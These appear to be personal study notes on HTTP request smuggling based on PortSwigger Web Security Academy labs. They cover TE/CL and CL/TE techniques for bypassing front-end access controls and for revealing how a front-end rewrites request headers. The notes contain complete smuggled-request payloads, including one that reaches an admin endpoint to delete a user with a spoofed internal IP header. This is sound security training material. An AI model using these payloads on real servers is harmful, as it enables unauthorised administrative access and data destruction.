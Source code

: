## Using HTTP request smuggling to bypass front-end security controls

TE/CL:

<mark class="hltr-b">POST /home HTTP/1.1</mark>
<mark class="hltr-b">Host: vulnerable-website.com</mark>
<mark class="hltr-b">Content-Type: application/x-www-form-urlencoded</mark>
<mark class="hltr-b">Content-Length: 62</mark>
<mark class="hltr-b">Transfer-Encoding: chunked</mark>

<mark class="hltr-b">0</mark>

<mark class="hltr-r">GET /admin HTTP/1.1</mark>
<mark class="hltr-r">Host: vulnerable-website.com</mark>
<mark class="hltr-r">Foo: x</mark><mark class="hltr-g">GET /home HTTP/1.1</mark>
<mark class="hltr-g">Host: vulnerable-website.com</mark>

The front-end server see two requests, both for `/home`. Backend sees one request for `/home` and one for `/admin`. As they have passed through the front-end controls, and so grant access to the restricted URL.

Example CL/TE:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

## Revealing front-end request rewriting
For example, the front-end server might:
- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an `X-Forwarded-For` header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

- Find a POST request that reflects the value of a request parameter into the application's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the `email` parameter:
```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
response:
```html
<input id="email" value="wiener@normal-user.net" type="text">
```

**RS CL/TE:**
<mark class="hltr-b">POST / HTTP/1.1</mark>
<mark class="hltr-b">Host: vulnerable-website.com</mark>
<mark class="hltr-b">Content-Length: 130</mark>
<mark class="hltr-b">Transfer-Encoding: chunked</mark>

<mark class="hltr-b">0</mark>

<mark class="hltr-o">POST /login HTTP/1.1</mark>
<mark class="hltr-o">Host: vulnerable-website.com</mark>
<mark class="hltr-o">Content-Type: application/x-www-form-urlencoded</mark>
<mark class="hltr-o">Content-Length: 100</mark>

<mark class="hltr-o">email=</mark><mark class="hltr-g">POST /login HTTP/1.1</mark>
<mark class="hltr-g">Host: vulnerable-website.com</mark>
<mark class="hltr-g">...</mark>
**Response:**
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
Complete example:
```http
POST / HTTP/1.1
Host: 0a120055047deebbb9562bdc00b10074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
Get header name in the response and perform attack request:
```http
POST / HTTP/1.1
Host: 0a120055047deebbb9562bdc00b10074.web-security-academy.net
Content-Length: 170
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-sGquJt-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1


```

## Bypassing client authentication
#to-be-continued 
https://portswigger.net/web-security/request-smuggling/exploiting